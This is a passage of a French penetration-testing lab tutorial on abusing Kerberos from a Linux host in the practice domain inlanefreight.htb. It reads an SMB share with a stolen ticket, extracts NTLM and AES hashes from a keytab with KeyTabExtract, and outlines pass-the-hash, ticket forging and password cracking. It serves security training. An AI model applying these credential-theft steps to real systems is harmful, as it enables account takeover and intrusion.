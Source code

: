 ### Se connecter au partage smb avec Carlos
```
david@inlanefreight.htb@linux01:~$ smbclient //dc01/carlos -k -c ls

  .                                   D        0  Thu Oct  6 14:46:26 2022
  ..                                  D        0  Thu Oct  6 14:46:26 2022
  carlos.txt                          A       15  Thu Oct  6 14:46:54 2022

                7706623 blocks of size 4096. 4452852 blocks available
```

```
Remarque : Pour conserver le ticket de la session en cours, avant d'importer le keytab, enregistrez une copie du fichier ccache présent dans la variable d'environnement KRB5CCNAME.
```

## Extrait de tableau de clés
La deuxième méthode que nous utiliserons pour abuser de Kerberos sous Linux consiste à extraire les secrets d'un fichier keytab. Nous avons pu usurper l'identité de Carlos en utilisant les tickets du compte pour lire un dossier partagé dans le domaine, mais si nous voulons accéder à son compte sur la machine Linux, nous aurons besoin de son mot de passe.

Nous pouvons tenter de déchiffrer le mot de passe du compte en extrayant les hachages du fichier keytab. Utilisons KeyTabExtract, un outil pour extraire des informations précieuses à partir de fichiers .keytab de type 502, qui peuvent être utilisés pour authentifier les machines Linux auprès de Kerberos. Le script extraira des informations telles que le domaine, le principal du service, le type de chiffrement et les hachages.

### Extraction des hachages Keytab avec KeyTabExtract
```
david@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 

[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```

Avec le hachage NTLM, nous pouvons effectuer une attaque Pass the Hash. Avec le hachage AES256 ou AES128, nous pouvons falsifier nos tickets en utilisant Rubeus ou tenter de déchiffrer les hachages pour obtenir le mot de passe en clair.

Le hachage le plus simple à casser est le hachage NTLM. Nous pouvons utiliser des outils comme Hashcat ou John the Ripper pour le casser. Cependant, un moyen rapide de déchiffrer les mots de passe consiste à utiliser des référentiels en ligne tels que https://crackstation.net/, qui contient des milliards de mots de passe.

![craclstation](ressource/crackstation.jpeg)
